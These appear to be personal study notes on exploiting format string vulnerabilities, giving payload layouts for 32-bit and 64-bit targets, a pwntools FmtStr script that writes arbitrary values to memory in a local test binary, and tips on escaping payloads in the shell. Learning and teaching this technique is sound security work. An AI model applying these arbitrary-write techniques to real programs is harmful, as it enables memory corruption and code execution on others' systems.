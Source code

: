 
---
### manually exploiting format string vulns
  
on 32bit our exploit will look like this:

```
[padding][address]%[value]c%[index]$[write_type]
```

while on 64 bit our exploit will look like this:

```
%[value]c%[index]$[write_type][padding][address]
```



# Automating Exploitation With Pwntools

```python
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely
p = process('./vulnerable')

# Function called in order to send a payload
def send_payload(payload):
        log.info("payload = %s" % repr(payload))
        p.sendline(payload)
        return p.recv()

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
format_string.write(0x0, 0x1337babe) # write 0x1337babe at 0x0
format_string.write(0x1337babe, 0x0) # write 0x0 at 0x1337babe
format_string.execute_writes()
```
- for more information & payload generation visit:
	- https://docs.pwntools.com/en/stable/fmtstr.html


---




# NOTES: 
- `$` is a special symbol on the shell and would otherwise need to be escaped.

- You'll note that we use print the exploit string in a python subshell. This isn't strictly necessary in this case, but for more interesting exploits the ability to print escape characters and use arbitrary bytes in our payload is very useful.

- We also print via `sys.stdout.write` to prevent the newline at the end we would get if we otherwise used `print` and surround the subshell in double quotes in case the payload had whitespace in it

